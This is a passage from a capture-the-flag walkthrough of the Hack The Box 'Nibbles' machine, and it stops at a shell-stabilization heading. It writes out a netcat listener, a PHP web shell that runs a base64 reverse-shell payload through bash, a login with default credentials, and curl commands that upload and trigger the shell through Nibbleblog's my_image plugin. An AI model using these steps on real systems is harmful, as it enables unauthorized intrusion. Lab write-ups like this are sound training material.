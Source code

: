 The goal is to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll choose the Base64 encoded version of the 'Bash -i' payload from
[RevShells](https://www.revshells.com/) configured to obtain a `/bin/bash`
shell.

We still need to find a way to execute our payload. Luckily we know that the
website is using PHP, so it should be pretty easy to obtain one by executing our
payload as an OS command like that:

```php
<?php system('/bin/echo <BASE64_REVSHELL_PAYLOAD> | /usr/bin/base64 -d | /bin/bash -i') ?>
```

I'll save it as `revshell.php`.

### Exploitation

It's time to upload our `revshell.php` file. However, to do so, we need a
`PHPSESSID` token.

```sh
❯ RESPONSE=$(curl -s -i "http://10.10.10.75/nibbleblog/admin.php?controller=user&action=login" -X "POST" --data-urlencode "username=admin" --data-urlencode "password=nibbles"); \
    PHPSESSID=$(echo "$RESPONSE" | grep -oP "Set-Cookie: PHPSESSID=\K[^;]+")
```

With this value, we can upload our PHP file.

```sh
❯ curl -s -o "/dev/null" -H "Cookie: PHPSESSID=$PHPSESSID" "http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image" -X "POST" -F "plugin=my_image" -F "title=Revshell" -F "position=4" -F "caption=Revshell" -F "image=@/workspace/revshell.php;type=application/x-php" -F "image_resize=1" -F "image_width=230" -F "image_height=200" -F "image_option=auto"
```

Finally, let's trigger our `revshell.php` file!

```sh
❯ curl -s -o "/dev/null" "http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php"
```

And if we check our listener:

```
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.75] 41228
<SNIP>
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$
```

It caught the reverse shell!

### Stabilizing the shell
